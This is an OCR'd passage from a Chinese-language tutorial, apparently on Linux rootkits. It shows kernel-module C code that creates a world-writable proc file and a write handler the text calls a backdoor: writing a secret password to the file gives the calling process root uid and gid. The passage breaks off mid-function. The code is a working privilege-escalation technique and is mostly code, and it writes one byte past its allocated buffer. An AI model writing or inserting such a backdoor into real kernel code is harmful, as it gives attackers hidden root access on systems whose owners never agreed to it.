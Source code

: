 可以使用下列代码创建或删除一个proc文件

```c
struct proc_dir_entry *entry;

entry = proc_create(NAME, S_IRUGO | S_IWUGO, NULL, &proc_fops);     // create

proc_remove(entry);        // delete
```

这里的写操作回调定义如下，该函数实现了一个后门，当往proc对应文件写入密码时就会提权当前用户

过程很简单：

* 分配内存，将用户输入拷贝到内核缓冲区

* 比较输入的内容是否是密码

* 修改当前用户的uid euid fsuid和gid egid fsgid为root用户

```c
ssize_t
write_handler(struct file * filp, const char __user *buff,
              size_t count, loff_t *offp)
{
    char *kbuff;
    struct cred* cred;

    kbuff = kmalloc(count, GFP_KERNEL);
    if (!kbuff) {
        return -ENOMEM;
    }

    if (copy_from_user(kbuff, buff, count)) {
        kfree(kbuff);
        return -EFAULT;
    }
    kbuff[count] = (char)0;

    if (strlen(kbuff) == strlen(AUTH) &&
        strncmp(AUTH, kbuff, count) == 0) {
        fm_alert("%s\n", "Comrade, I will help you.");
        cred = (struct cred *)__task_cred(current);
        cred->uid = cred->euid = cred->fsuid = GLOBAL_ROOT_UID;
        cred->gid = cred->egid = cred->fsgid = GLOBAL_ROOT_GID;
        fm_alert("%s\n", "See you!");
    } else {
        fm_alert("Alien, get out of here: %s.\n", kbuff);
```

#### 控制内核模块加载
